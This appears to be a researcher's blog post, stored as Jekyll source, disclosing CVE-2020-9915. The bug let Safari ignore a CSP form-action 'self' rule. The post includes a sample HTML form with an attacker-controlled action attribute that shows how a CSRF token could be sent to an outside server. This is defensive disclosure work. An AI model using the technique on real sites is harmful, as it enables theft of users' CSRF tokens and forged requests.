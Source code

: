```yaml
---
layout: post
title:  "CVE-2020-9915 – Failure to properly process form-action ‘self’ leads to CSP bypass in Safari"
---
```


Content Security Policy (CSP) is an added security layer that helps detect and mitigate specific attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement to distribute malware.

To enable CSP, you need to configure your webserver to return the Content-Security-Policy HTTP header. Alternatively, the ``` <META> ``` element can be used to configure the CSP policy, as is the case with our scenario.

The following article will describe an issue I found a year ago while investigating a potential security vulnerability. The malicious user can control the action attribute of a specific form containing a CSRF token.

For example, The following behavior would allow us to ex-filtrate that token since it throws the POST data to {{user-controlled}} which is already defined in the action attribute.

```
<form action="{{user-controlled}}" id="XSRF" method="post">
   <input type="text" name="TOKEN" value="TOKEN_VALUE">
   <input type="submit" id="submit" value="submit">
```

Unfortunately, It is not the case when the CSP defines the following rule.

```
Content-Security-Policy: Form-Action 'self'
```

In order to evade the protection and leak the token to an external instance; We’ll need to find a way to bypass that CSP-protected page.

Primarily; We’ll need to confirm how different browsers will treat this. Mozilla Developers documentation doesn’t give us much since it affirms that all widely used web browsers support the form-action rule.

![](https://github.com/aelmokhtar/ayoubmokhtar.github.io/raw/master/_posts/images/post-2-image001.png)

That wasn’t the case when we’ve decided to go through each browser to confirm the behavior manually. The results were surprisingly incredible.

Safari Browser was not acknowledging the Form-Action when it’s been set to ‘self’.

As a result of that behavior, we can ex-filtrate the CSRF token from the victim’s Safari browser to our controlled server.

The security issue was reported to Apple Security, and they assigned CVE-2020-9915 to it. https://support.apple.com/en-us/HT211292


#### References:

https://developers.google.com/web/fundamentals/security/csp

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/form-action

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

